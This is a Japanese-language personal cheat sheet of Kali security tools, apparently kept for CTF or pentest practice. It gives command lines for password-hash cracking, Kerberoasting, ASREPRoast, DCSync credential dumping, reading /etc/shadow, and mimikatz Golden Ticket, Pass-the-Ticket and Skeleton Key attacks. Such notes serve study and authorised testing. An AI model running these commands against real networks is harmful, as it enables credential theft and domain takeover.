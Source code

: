 ## Tools
- CyberChef  
  「Magic」可読可能な文字列に変換してくれる
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (kali〇, Perl)  
  「`enum4linux` IPアドレス」
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (kali〇, Ruby)  
  「`evil-winrm` -i IPアドレス -u ユーザ名 -H NTハッシュ」WinRM経由でログインできる。
- ftp (kali〇, ELF)  
  「ftp IPアドレス -a」Anonymousログオン
- [GoBuster](https://github.com/OJ/gobuster) (kali〇, Go)  
  「`gobuster` -u URL -w wordlist dir」URL配下のコンテンツをWordlistを用いて探索
- gpg (kali〇, ELF)    
  「`gpg` --import "GPG鍵(拡張子.key)"」→「`gpg` -d "メッセージファイル(拡張子.gpg)"」GPGファイルを復号
- [hashcat](https://github.com/hashcat/hashcat) (kali〇, C)  
  「`hashcat` -a 0 -m 値 Hashファイル Wordlist」  
  「-a 0 」は辞書攻撃、「-m 値」はハッシュ形式（-m 13100 は「$krb5tgs」、-m 18200 は「$krb5asrep」）
- [hashID](https://github.com/psypanda/hashID) (kali〇, python)  
  「`hashid` --john "Hashファイル名"」（--johnで、JohnTheRipperでのフォーマットも確認できる）
- [impacket](https://github.com/fortra/impacket) (Kali〇, python)  
  `impacket-〇〇`以外に、`python3 /usr/share/doc/python3-impacket/examples/〇〇.py`でも実行できる
  - GetNPUsers  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP ドメイン名/ユーザ名 -outputfile 出力ファイル名」  
      `ASREPRoast`（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
      取得したTGTを「john --wordlist=Wordlist名 TGT名」または「hashcat -a 0 -m 18200 wordlist名 TGT名 」でクラックできる  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP -userfile ユーザリスト ドメイン名/ -outputfile 出力ファイル名」  
      では「-userfile」内の各ユーザに対してASREPRoastを実行
  - GetUserSPNs  
    「`impacket-GetUserSPNs` -dc-ip ドメコンIP ドメイン名/ユーザ名:パスワード -outputfile 出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行
  - secretsdump  
    「`impacket-secretsdump` -just-dc ドメイン名/ユーザ名:パスワード@IPアドレス -outputfile 出力ファイル名」  
    DCSync権限を持つドメインユーザを使用して、各ドメインユーザのNTハッシュやKerberosキーをダンプできる。
- [John the Ripper](https://github.com/openwall/john) (kali〇, C)  
  - 「`john` --wordlist=/usr/share/wordlists/rockyou.txt "Hashファイル" --format=Hash方式」  
    「`john` "Hashファイル名" --show」クラック済み結果を表示（もしくは`/home/kali/.john/.john.pot`に解析結果がある）
  - 「`john` --list=formats」全フォーマットを表示  
    「--format=Raw-MD5」MD5ハッシュ, 「--format=nt」NTハッシュ
  - johnで解析するためのパスワード抽出
    - 「`zip2john` "zipファイル" > "出力ファイル"」johnで解析できるようにZIPパスワードを出力  
    - 「`rar2john` "rarファイル" > "出力ファイル"」johnで解析できるようにRARパスワードを出力  
    - 「`ssh2john` "SSH秘密鍵ファイル" > "出力ファイル"」johnで解析できるようにSSH秘密鍵を出力
    - 上記３つを実行後、「`john` --wordlist=/usr/share/wordlists/rockyou.txt "出力ファイル"」でクラック可能
  - 「john --single "Hashファイル" --format=Hash方式」SingleCrackモード（あんま使わん）  
    Hashファイルは`文字列:ハッシュ`形式。文字列を変換しながらHashクラックを行う。
  - 「sudo `unshadow` /etc/passwd /etc/shadow」  
    Johnで /etc/shadow をクラックするためのフォーマット作成
- [Kerbrute](https://github.com/ropnop/kerbrute) (kali×, Go)
  - install  
    GitHub上のReleaseからLinuxバイナリをインストール
  - 「`./kerbrute` userenum -d ドメイン名 --dc ドメコンIP Wordlists名 -o 出力ファイル名」Domainユーザの列挙
- [mimikatz](https://github.com/gentilkiwi/mimikatz) (kali〇, C)  
  「privilege::debug」→「[output '20' OK]」でAdministrator権限を確認
  - Golden/Silver Ticket Attacks  
    「lsadump::lsa /inject /name:krbtgt」  
    krbtgtアカウントのNTハッシュやSIDをダンプ（SilverTicketの場合は/nameで指定のユーザを指定）  
    「Kerberos::golden /user:Administrator /domain:ドメイン名 /sid:krbtgtのSID /krbtgt:krbtgtのNTハッシュ /id:500」  
    GoldenTicketを作成（SilverTicketは別の方法）  
    「misc::cmd」で先程作成したTicketに昇格する
  - Pass the Ticket  
    「sekurlsa::tickets /export」.kiribiチケットが現在地にエクスポート  
    「kerberos::ptt .kiribiチケット名」→「klist」でキャッシュされたチケットを表示で攻撃の成功を確認
  - Skeleton Key  
    「misc::skeleton」ドメコンのメモリ上にマスタパスワードを挿入し、AD認証をバイパスする。
- [pdfinfo](https://github.com/howtomakeaturn/pdfinfo) (kali×, PHP)  
  「`pdfinfo` "PDFファイル名"」PDFメタデータの確認
- [Rubeus](https://github.com/GhostPack/Rubeus) (kali×, C#)  
  攻撃対象のWindowsマシンで実行する、Post-Exploitationのイメージ  
  - 「`Rubeus.exe` harvest /interval:秒数」指定した秒数間、TGTを収集する  
  - 「`Rubeus.exe` kerberoast /nowrap /outfile:出力ファイル」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行（nowrapは改行なしで結果出力）  
    TGSは「`hashcat` -a 0 -m 13100 TGSファイル Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - 「`Rubeus.exe` asreproast /format:hashcat /outfile:出力ファイル」  
    ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
    ASREPは「`hashcat` -a 0 -m 18200 ASREPファイル Passwordリスト」でクラックできる（Johnでもクラックできる）
- scp (kali〇, ELF)  
  「scp SSHユーザ名@IPアドレス:/リモートパス ローカルパス」リモート先からダウンロード
- smbclient (kali〇, ELF)  
  「`smbcleint` -L IPアドレス or FQDN -U ユーザ名%パスワード」共有フォルダの列挙  
  「`smbclient` //IPアドレス/共有名 -U ユーザ名%パスワード」共有フォルダにアクセス
- [SMBMap](https://github.com/ShawnDEvans/smbmap) (kali〇, python)  
  「`smbmap` -H "IPアドレス" -u "ユーザ名" -p "パスワード"」共有フォルダの列挙（smbclientと比べフォルダ権限まで確認できる）
- SSH  
  SSH秘密鍵の権限は600か700でないとSSH鍵認証できない
  - sshkeygen
## Linux
### Command
- 「`sed` -i '1s/^/文字列' ファイル名」 ファイルの１行目（`1s`）先頭に文字列を追加（改行なし）
### Preference
- 「`sudo sed -i '$a10.10.253.185 spookysec.local' /etc/hosts`」を実行しHOSTSファイルを編集
- `$format$rounds$salt$hash` /etc/shadowのフォーマット、`$format`でハッシュ種別が分かる
## BookMark
- [CrackStation](https://crackstation.net/)
- [hashes.com](https://hashes.com/en/decrypt/hash)
- [hash_identifier](https://hashes.com/en/tools/hash_identifier)
- [SecLists](https://github.com/danielmiessler/SecLists)
- [RsaCtfTool](https://github.com/Ganapati/RsaCtfTool)
- [rsatool](https://github.com/ius/rsatool)
